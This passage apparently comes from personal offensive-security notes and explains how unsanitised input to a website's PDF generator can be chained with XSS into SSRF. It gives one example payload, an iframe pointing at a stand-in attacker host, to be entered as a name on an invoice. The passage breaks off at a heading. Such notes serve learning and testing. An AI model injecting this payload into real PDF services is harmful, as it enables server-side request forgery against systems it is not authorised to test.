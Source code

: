 Some websites, allows their users to generate a PDF based on the input they have provided. If these inputs are non-sanitized, this can lead to a SSRF by chaining it with a [Cross Site Scripting](obsidian://open?vault=security-notes&file=Offensive%20Security%2FWeb%20Application%20Security%2FClient-side%20Vulnerabilities%2FCross-Site%20Scripting%2FIntroduction) (XSS) attack.

Usual pre-requisite for an attack like this is for the website to be vulnerable from Cross Site Scripting (XSS). For example, a target website generates an invoice that includes your full name in it. You can use the following payload as your full name: `<iframe src="http://attacker-website.com" width="400" height="400">` which then a PDF generator library would take and generate a PDF and executing the `iframe` code an attacker has provided.
## SSRF Chain with X